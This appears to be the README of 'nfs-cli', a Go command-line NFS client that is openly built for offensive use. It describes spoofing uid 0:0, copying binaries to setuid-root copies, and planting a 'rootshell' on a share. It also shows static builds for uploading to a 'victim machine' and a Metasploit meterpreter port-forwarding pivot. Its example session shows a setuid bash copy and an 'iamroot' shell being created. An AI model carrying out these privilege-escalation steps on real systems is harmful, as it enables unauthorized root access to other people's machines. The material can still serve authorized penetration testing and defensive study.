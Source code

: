 # nfs-cli

Simple cli for nfs. No NFS permissions are bypassed or anything. This is not an exploit. You can set machine identifier, uid and gid though.

Also, just in case the permissions aren't all that great there are some nice pwn features available.

(And no, this doesn't work through a metasploit socks proxy, as go doesn't obey proxychains.)

It really shines when built static and uploaded to a victim machine, or when we have direct access to a NFS share.

## Usage
```sh
nfs-cli <rhost> <path> -u 0:0
```
Use `-h` for help.

Build static (for infil):
```sh
CGO_ENABLED=0 go build -a -ldflags '-extldflags "-static"' .
```

Pretty sure you need to use the `-u` switch if you are running this in Windows. Can't really see that working.

### Commands
Note: Don't include slashes in paths, this tool is pretty dumb.

- `ls` - list files i cwd
- `cd newdir` - change cwd
- `mkdir newdir` - create a directory (mode `06777`)
- `rmdir dir` - delete directory (and recursive)

- `cat file` - view file
- `b64get file` - download file "visually" in base64 format
- `get file` - download file

- `put file` - upload file (mode `06777`)
- `b64put file` - will prompt for base64 input and upload (mode `06777`)
- `type file` - allows for manual file upload (mode `06777`)
- `rm file` - delete file

- `pwn file` - copies `file` to `file.pwn` and sets mode `06777`
- `shell file` - creates a minimal rootshell (if allowed)

The suid-bit doesn't work unless you are root, not sure if this is nfs or the library.

## Example
Metasploit:
```
# we can't forward listening sockets
sudo systemctl stop portmap
sudo systemctl stop rpcbind.socket

sudo msfconsole -q   # 111 is privileged, see below for workaround
...
meterpreter > shell
Process XYZ created.
Channel ZYX created.
$ rpcinfo
   program vers proto   port  service
   ...
    100005    2   tcp  20048  mountd      <--this is the portnumber you want
   ...
$ exit
meterpreter > portfwd add -l 111 -L 0.0.0.0 -p 111 -r 127.0.0.1
meterpreter > portfwd add -l 2049 -L 0.0.0.0 -p 2049 -r 127.0.0.1
meterpreter > portfwd add -l 20048 -L 0.0.0.0 -p 20048 -r 127.0.0.1
```

Client:
```
./nfs-cli -u 0:0 localhost /home/james
/home/james$ ls
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [.]
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [..]
     755  1000  1000  1183448 | Mon Jan  9 23:12:03 2023  [bash]
/home/james$ pwn bash
/home/james$ ls
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [.]
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [..]
     755  1000  1000  1183448 | Mon Jan  9 23:12:03 2023  [bash]
    6777     0     0  1183448 | Mon Jan  9 23:13:49 2023  [bash.pwn]
/home/james$ shell iamroot
/home/james$ ls
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [.]
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [..]
     755  1000  1000  1183448 | Mon Jan  9 23:12:03 2023  [bash]
    6777     0     0  1183448 | Mon Jan  9 23:13:49 2023  [bash.pwn]
    6777     0     0      163 | Mon Jan  9 23:14:25 2023  [iamroot]
```

## Alternative usage (non-priv)
```
git clone https://github.com/go-nfs/nfsv3.git
cd nfsv3
# copy the go files here
# edit nfs/rpc/portmap.go and change PmapPort to 9111
go run . -h
```

Now it's possible to `portfwd add -l 9111 -L 0.0.0.0 -p 111 -r 127.0.0.1` instead. No need to run `msfconsole` as root.
